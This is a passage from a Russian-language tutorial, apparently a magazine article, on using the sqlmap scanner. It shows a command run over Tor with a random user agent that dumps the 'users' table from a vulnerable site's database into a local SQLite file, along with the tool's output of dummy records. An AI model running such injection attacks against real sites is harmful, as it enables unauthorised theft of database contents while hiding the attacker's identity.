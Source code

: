 Готово!

 
Сценарий № 3
Теперь, обнаружив в базе данных testdb-таблицу (-D testdb) с интересным именем "users" (-T users), мы, естественно, заходим заполучить ее содержимое себе (--dump). Но чтобы показать еще одну интересную опцию, не будем копировать все данные просто в файле, а реплицируем содержимое таблиц в основанную на файлах базу данных SQLite на локальной машине (--replicate).

$ python sqlmap.py -u "http://www.site.com/vuln.php?id=1" --random-agent --tor --dump -D testdb -T users --replicate

Сканеру не составит труда определить названия столбцов для таблицы users и вытащить из нее все записи:

[02:11:26] [INFO] fetching columns for table 'users' on database 'testdb'
[02:11:26] [INFO] fetching entries for table 'users' on database 'testdb'
Database: testdb
Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 1  | luther | blissett   |
| 4  | NULL   | nameisnull |
+----+--------+------------+
[02:11:27] [INFO] Table 'testdb.users' dumped to sqlite3 file

Таким образом мы получим дамп базы данных в файле testdb.sqlite3 в формате SQLite. Фишка в том, что в при таком раскладе мы не только можем посмотреть данные, но еще и выполнить к ней любые запросы, заюзав возможности SQLite (например, с помощью программы SQLite Manager).
